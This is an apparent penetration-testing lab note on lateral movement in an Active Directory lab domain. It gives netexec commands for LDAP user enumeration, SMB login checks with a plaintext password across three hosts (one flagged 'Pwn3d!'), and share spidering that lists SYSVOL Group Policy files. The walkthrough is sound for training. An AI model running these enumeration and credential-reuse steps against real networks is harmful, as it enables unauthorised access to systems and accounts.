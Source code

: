 # Lateral movement

AD user enumeration:
```bash
netexec ldap 192.168.240.97 -u 'Eric.Wallows' -p 'EricLikesRunning800' --users

Administrator
Guest
DefaultAccount
krbtgt
michael
charlotte
eric.wallows
```

## SMB

SMB access as Eric:
```bash
netexec smb 192.168.240.97 192.168.240.96 192.168.240.95 -u 'Eric.Wallows' -p 'EricLikesRunning800'                                                                                                                                32 ↵
# SMB         192.168.240.96  445    ERA              [+] secura.yzx\Eric.Wallows:EricLikesRunning800 
# SMB         192.168.240.97  445    DC01             [+] # secura.yzx\Eric.Wallows:EricLikesRunning800 
# SMB         192.168.240.95  445    SECURE           [+] secura.yzx\Eric.Wallows:EricLikesRunning800 (Pwn3d!)
```

SMB Share enum as Eric.Wallows:
![[Pasted image 20251020175919.png]]
=> "test" share on DC01
=> share has no file

Spider all shares as Eric:
```bash
netexec smb 192.168.240.97 192.168.240.96 192.168.240.95 -u 'Eric.Wallows' -p 'EricLikesRunning800'  --module spider_plus
```

DC01 share-file metadata to "/home/kali/.nxc/modules/nxc_spider_plus/192.168.240.97.json:
```json
"SYSVOL": {
        "secura.yzx/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI": {
            "atime_epoch": "2022-10-25 19:34:04",
            "ctime_epoch": "2022-10-25 19:34:04",
            "mtime_epoch": "2022-10-25 19:39:34",
            "size": "27 B"
        },
        "secura.yzx/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf": {
            "atime_epoch": "2022-10-25 19:34:04",
            "ctime_epoch": "2022-10-25 19:34:04",
            "mtime_epoch": "2022-10-25 19:39:34",
            "size": "894 B"
        },
        "secura.yzx/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Services/Services.xml": {
            "atime_epoch": "2022-10-25 19:35:15",
            "ctime_epoch": "2022-10-25 19:35:15",
            "mtime_epoch": "2022-10-25 19:39:34",
            "size": "376 B"
        },
```